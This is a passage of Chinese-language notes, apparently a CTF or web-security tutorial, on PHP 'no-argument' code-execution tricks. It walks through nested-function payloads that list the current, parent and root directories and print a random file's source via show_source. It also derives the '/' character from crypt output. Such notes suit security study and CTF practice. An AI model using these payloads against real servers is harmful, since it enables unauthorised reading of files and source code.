			- 当前目录结构
			- `print_r(array_flip(scandir(dirname(chdir(dirname(getcwd()))))));`反转键值对
			- 随机遍历键名`print_r(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd())))))));`
			- ==本机环境有问题随机数种子可能固定因为不能演示==`show_source(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd())))))));`
**根目录/获取**
- `print_r(array());`
- `print_r(serialize(array()));`
- crypt单向字符串散列加密==结果随机==其中我们需要的/符号从里面提取`print_r(crypt(serialize(array())));`
- /总是出现在最后，需要逆转字符串提取
- 只需要第一个字符ord()函数与chr()函数==当加密解密字符串时只对第一个字符进行编码==
	- 先用ord(/0tWXljZxvwLcEQruT0NX9J$WSjcX1H1\$1\$)会将/转为ascii码
	- 再用chr函数将ord函数返回结果转为/
			-`chr(ord(strrev(crypt(serialize(array())))))代表的就是根目录`
**有了根目录就可以进行根目录的读取**
	`根目录         ：chr(ord(strrev(crypt(serialize(array())))))`
	`读取           ：scandir()`
	`读取根目录文件  ：scandir(chr(ord(strrev(crypt(serialize(array()))))))`
	`打印结果       ： print_r(scandir(chr(ord(strrev(crypt(serialize(array())))))))`
**==当随机读取文件内容时，文件很多，很难随机到想要的文件可以使用burp suit抓包==**


